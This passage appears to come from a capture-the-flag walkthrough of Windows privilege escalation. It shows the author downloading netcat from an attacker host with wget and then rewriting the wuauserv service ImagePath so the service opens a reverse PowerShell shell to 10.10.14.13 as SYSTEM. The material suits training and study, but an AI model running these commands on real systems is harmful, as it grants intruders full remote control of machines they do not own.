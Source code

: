 
The simple task we have to do is change the **ImagePath** .  I wil use **netcat** intead of **Powershell**.

```powershell
PS HKLM:\SYSTEM\CurrentControlSet\Services> c:
PS C:\Users\Hector\Documents>cd c:\Windows\System32\Spool\Drivers\Colors
PS C:\Windows\System32\Spool\Drivers\color> wget http://10.10.14.13/nc.exe -o nc.exe
PS C:\Windows\System32\Spool\Drivers\color> dir nc.exe


    Directory: C:\Windows\System32\Spool\Drivers\color


Mode                LastWriteTime         Length Name                                           
----                -------------         ------ ----                                           
-a----         5/8/2020  12:49 AM          59392 nc.exe                                         


PS C:\Windows\System32\Spool\Drivers\color>

```

```powershell
PS HKLM:\SYSTEM\CurrentControlSet\Services> set-itemproperty -path wuauserv -Name ImagePath -Value "C:\Windows\System32\Spool\Drivers\color\nc.exe 10.10.14.13 4242 -e powershell"
PS HKLM:\SYSTEM\CurrentControlSet\Services> get-item wuauserv


    Hive: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services


Name                           Property
----                           --------
wuauserv                       DependOnService     : {rpcss}
                               Description         : @%systemroot%\system32\wuaueng.dll,-106
                               DisplayName         : @%systemroot%\system32\wuaueng.dll,-105
                               ErrorControl        : 1
                               FailureActions      : {128, 81, 1, 0...}
                               ImagePath           : C:\Windows\System32\Spool\Drivers\color\nc.exe 10.10.14.13 4242
                               -e powershell
                               ObjectName          : LocalSystem
                               RequiredPrivileges  : {SeAuditPrivilege, SeCreateGlobalPrivilege,
                               SeCreatePageFilePrivilege, SeTcbPrivilege...}
                               ServiceSidType      : 1
                               Start               : 3
                               SvcMemHardLimitInMB : 246
                               SvcMemMidLimitInMB  : 167
                               SvcMemSoftLimitInMB : 88
                               Type                : 32


PS HKLM:\SYSTEM\CurrentControlSet\Services>
```

